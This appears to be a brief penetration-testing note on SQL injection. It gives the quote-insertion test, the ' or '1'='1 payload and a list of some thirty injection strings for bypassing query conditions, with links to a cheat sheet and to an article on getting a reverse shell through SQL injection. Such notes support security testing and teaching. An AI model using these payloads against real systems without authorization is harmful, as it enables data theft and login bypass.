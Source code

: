 # SQL injection

## Basic techniques
Stick a `'` in a parameter and see if it throws a database error (and note what kind).

Another simple test:
```
' or '1'='1
```
Other tests:
```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
## SQLmap
To-do

## Further reading
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
